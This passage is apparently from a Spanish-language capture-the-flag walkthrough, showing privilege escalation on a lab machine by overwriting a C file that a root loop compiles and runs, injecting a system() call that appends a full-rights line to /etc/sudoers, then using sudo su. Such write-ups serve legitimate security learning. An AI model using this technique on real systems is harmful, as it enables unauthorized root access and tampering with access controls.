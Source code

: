 Vemos que `root` esta ejecutando `/home/cristal/systm.sh` y si leemos que hace este script:

```shell
#!/bin/bash

var1="/home/cristal/systm.c"
var2="/home/cristal/syst"

while true; do
      gcc -o $var2 $var1
      $var2
      sleep 15
done
```

Vemos que esta compilando el archivo `/home/cristal/systm.c` y lo esta llamado `/home/cristal/syst`, seguidamente lo ejecuta, por lo que vamos a realizar lo siguiente:

```shell
nano /home/cristal/systm.c

#Dentro del nano
#include <stdlib.h>

int main() {
    // Comando a ejecutar
    const char *command = "echo 'cristal    ALL=(ALL:ALL) ALL' >> /etc/sudoers";

    // Ejecutar el comando usando system()
    (void)system(command); // Ignorar el resultado

    return 0;
}
```

Lo guardamos, esperamos unos segundos y si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for cristal on 2704bac91ebd:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User cristal may run the following commands on 2704bac91ebd:
    (ALL : ALL) ALL
    (ALL : ALL) ALL
    (ALL : ALL) ALL
    (ALL : ALL) ALL
```

Por lo que haremos lo siguiente:

```shell
sudo su
```

Info:

```
root@2704bac91ebd:/home/cristal# whoami
root
```

Y con esto ya seremos `root`, por lo que habremos terminado la maquina.
